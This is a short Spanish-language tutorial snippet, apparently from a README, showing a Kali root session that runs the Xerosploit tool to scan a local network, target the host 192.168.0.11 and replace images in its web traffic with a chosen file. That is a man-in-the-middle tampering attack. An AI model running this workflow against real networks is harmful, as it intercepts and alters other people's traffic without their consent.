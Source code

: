 ## Reemplazado de imágenes web con Xerosploit

```bash
┌─[root@kali]─[/opt/xerosploit]
└──╼ python xerosplooit.py

Xero => scan

Xero => 192.168.0.11

Xero => replace

Xero => run

Xero => /home/user/Desktop/image.jpeg
```

